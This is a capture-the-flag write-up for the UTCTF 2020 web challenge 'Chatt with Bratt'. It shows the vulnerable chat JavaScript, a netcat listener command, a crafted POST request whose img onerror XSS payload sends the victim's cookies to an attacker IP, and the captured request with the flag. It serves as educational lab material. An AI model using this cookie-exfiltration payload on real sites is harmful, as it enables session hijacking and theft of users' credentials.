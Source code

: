 # UTCTF 2020 – Chatt with Bratt

* **Category:** web
* **Points:** 50

## Challenge

> After announcing that he would be having an anonymous 1-on-1 AMA with randomly chosen, adoring fans, an engineering team hacked together a web app and likely forget to patch some obvious security holes. Anyway, you're one of the lucky fans chosen to chatt with Bratt Pid! Have fun: web3.utctf.live:8080
> 
> by phleisch

## Solution

The website simulates a chat with a VIP. Analyzing the HTML, some interesting JavaScript code can be found.

```html
	<script>
		function addMessage(content, name) {
			const messageBody = document.getElementById('message-body');
			const card = document.createElement("div");
			card.className = "card";
			const cardHeader = document.createElement("div");
			cardHeader.className = "card-header";
			const strongName = document.createElement("strong");
			strongName.innerHTML = name;
			cardHeader.appendChild(strongName);
			card.appendChild(cardHeader);
			const cardBody = document.createElement("div");
			cardBody.className = "card-body";
			const cardText = document.createElement("p");
			cardText.className = "card-text";
			cardText.innerHTML = content;
			cardBody.appendChild(cardText);
			card.appendChild(cardBody);
			messageBody.appendChild(card);
			return;
		}
	</script>

	<script>
		function showMessages(data) {
			const messageBody = document.getElementById('message-body');
			if (data.Messages.length == messageBody.children.length) {
				return;
			}
			const sortedMessages = data.Messages.sort((a, b) => b.Msg_Sent - a.Msg_Sent)
			messageBody.textContent = '';
			sortedMessages.forEach(message => {
				const name = message.User_ID == 1 ? "Anon" : "Bratt Pid";
				addMessage(message.Content, name);
			});
		}
	</script>
	
	<script>
		function loadMessages() {
			fetch('/messages')
				.then((response) => {
					return response.json();
				})
				.then((data) => {
					showMessages(data);
				});
			setTimeout(loadMessages, 10000);
		}
	</script>

	<script>
	  function sendMessage() {
		const message = document.getElementById('message'); 
		
		if (message.value === "") {
		  return false;
		}

		addMessage(message.value, "Anon");

		const data = {content: message.value}
		fetch('/chatt', {
		  method: 'POST',
		  body: JSON.stringify(data)
		});
		
		message.value = "";
		return true;
	  }
	</script>
```

Peforming some tests, you can discover that chat functionality is vulnerable to HTML tag injection, because the message sent to the server is then reflected into the web page and it is not escaped. An XSS can be performed using the `img` tag and the `onerror` attribute.

Analyzing cookies, an interesting cookie called `secret` can be found, but it is set to `none` value.

A listening server can be set up using *netcat*, e.g. `nc -lkv 1337`.

The following HTTP request can be crafted to attack the chat endpoint and steal cookies of the VIP user.

```
POST /chatt HTTP/1.1
Host: web3.utctf.live:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://web3.utctf.live:8080/chatt
Content-Type: text/plain;charset=UTF-8
Origin: http://web3.utctf.live:8080
Content-Length: 115
Connection: close
Cookie: chat_id=d9ab6df5-6175-11ea-ae82-ee665abdd353; secret=none

{"content":"<img src=\"foo.png\" onerror=\"document.location='http://xxx.xxx.xxx.xxx:1337?c='+document.cookie;\" />"}
```

On the listening server you will find the request sent by the victim browser.

```
Connection from ec2-18-213-193-80.compute-1.amazonaws.com 5015 received!
GET /?c=chat_id=d9ab6df5-6175-11ea-ae82-ee665abdd353;%20secret=utflag{95debad95cfb106081f33ceadc36bf9c} HTTP/1.1
Host: xxx.xxx.xxx.xxx:1337
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://127.0.0.1:8080/chatt
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

The `secret` cookie will contain the flag.

```
utflag{95debad95cfb106081f33ceadc36bf9c}
```